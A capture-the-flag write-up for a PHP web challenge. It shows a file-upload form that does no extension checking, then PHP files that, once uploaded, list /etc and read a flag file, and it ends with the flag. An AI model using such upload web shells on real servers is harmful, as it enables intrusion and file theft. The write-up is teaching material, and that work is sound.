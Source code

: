 # Web/WTF PHP writeup

The webpage only contains a file upload box, which instantly captures my attention as a possible weakness. Checking the source code reveals that there is no client-side checking of extensions, only that the file must be smaller than 1MB.

``` php+HTML

<html>
   <body>
      <form action="" method="POST" enctype="multipart/form-data">
         <input type="file" name="fileData" />
         <input type="submit"/>
      </form>
   </body>
<!--
   if(isset($_FILES['fileData'])){
      if($_FILES['fileData']['size'] > 1048576){
         $errors='File size should be less than 1 MB';
      }

      if(empty($errors)==true){
        $uploadedPath = "uploads/".rand().".".explode(".",$_FILES['fileData']['name'])[1];
        move_uploaded_file($_FILES['fileData']['tmp_name'],$uploadedPath);
        echo "File uploaded successfully\n";
        echo '<p><a href='. $uploadedPath .' target="_blank">File</a></p>';
      }else{
         echo $errors;
      }
   }
-->

</html>

```

Knowing that the file is somewhere in `/etc`, we can upload a simple PHP file:

```php
<?php
echo implode(' ', scandir("/etc"));
?>
```

This returns a list of files in `/etc` , where we can see `f1@g.txt`, which is the flag we want. Knowing that, we can upload either of the following files to extract the code.

```php
<?php
echo file_get_contents('/etc/f1@g.txt');
?>
```

```php
<?php
include "/etc/f1@g.txt";
?>
```

This gives us the flag

`darkCON{us1ng_3_y34r_01d_bug_t0_byp4ss_d1s4ble_funct10n}`